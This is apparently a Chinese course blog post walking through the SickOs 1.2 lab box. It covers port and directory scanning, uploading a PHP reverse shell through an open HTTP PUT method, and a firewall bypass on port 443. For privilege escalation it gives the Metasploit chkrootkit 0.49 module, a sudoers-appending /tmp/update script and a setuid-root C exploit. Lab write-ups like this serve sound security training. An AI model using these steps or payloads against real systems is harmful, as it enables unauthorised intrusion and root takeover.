










51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到一个文件目录界面，curl测试发现开放PUT权限，上传反弹shell获得低权用户的shell，审计代码查询定时任务，发现chkrootkit的0.49版本存在漏洞，使用metasploit结合刚才获得的shell提权攻击，获得root权限。另外还有两种网上查到的提权方法一并展示，不得不说攻击的手段真是层出不穷，方法真是五花八门。

本篇使用工具curl，metasploit。

<!-- more -->

# 使用命令

## curl

``` bash
#测试url允许的post参数
curl -v -X OPTIONS [url]

#PUT上传
curl -v -T [file] [url]
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，`80`口有web服务，`dirb`挖掘`80`端口web信息，找到一个测试界面，打开是文件目录：

``` bash
nmap -sV 192.168.2.149
dirb http://192.168.2.149
```



2. curl测试网站支持参数，发现可以利用PUT上传反弹shell：

``` bash
curl -v -X OPTIONS http://192.168.2.149/test/
```



3. 生成反弹shell并上传，这里必须加`-H`自定义头为**Expect:**，否则靶机`lighttpd/1.4.28`这个版本会返回417错误上传失败：

``` bash
curl -v -H "Expect:" -T Desktop/shells/php_reverse_shell.php http://192.168.2.149/test/
```



4. 开启监听，在靶机执行反弹shell，结果没有弹回来，应该是防火墙拦截了：



5. 修改监听端口为`443`，成功绕过防火墙拿到低权shell，这里中途换了metasploit监听（对应shell需要msfvenom生成），方便下一步的提权：





6. 一顿狂扫，按版本搜漏洞，最后系统版本无漏洞，内核版本无漏洞，chkrootkit(一个检测恶意软件Rootkit的脚本)版本存在漏洞：

``` bash
chkrootkit -V
```



7. metasploit使用对应漏洞，结合刚才的shell，提权root：

``` bash
msfconsole
>use exploit/unix/local/chkrootkit
>set payload cmd/unix/reverse
>set session 2
>run
```



8. 成功本地提权，这个利用的是创建`/tmp`下的**update**文件欺骗**chkrootkit**更新以执行提权：



9. 既然了解了原理，我们也可以手动操作，切到`/tmp`目录下新建**update**文件，echo进去一段代码将当前用户写入sudo组：

``` bash
touch /tmp/update
chmod +x /tmp/update
echo 'chmod +w /etc/sudoers && echo "www-data ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /tmp/update
```



10. 还有一种方法是编写exp，原理差不多，改变/tmp的所属组为root以及增加uid为root权限，不过涉及到编译，操作多一点，万一靶机gcc不好使就没办法了：

* exp脚本如下：

``` c
#include <unistd.h>
void main(void)
{
 system("chown root;root /tmp/update");
 system("chmod 4755 /tmp/update");
 setuid(0);
 setgid(0);
 execl("/bin/sh","sh",NULL);
}
```

* 编译：

``` bash
gcc update.c -o update
./update
```

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [kali渗透综合靶机(十二)--SickOs1.2靶机](https://www.cnblogs.com/yuzly/p/10854392.html)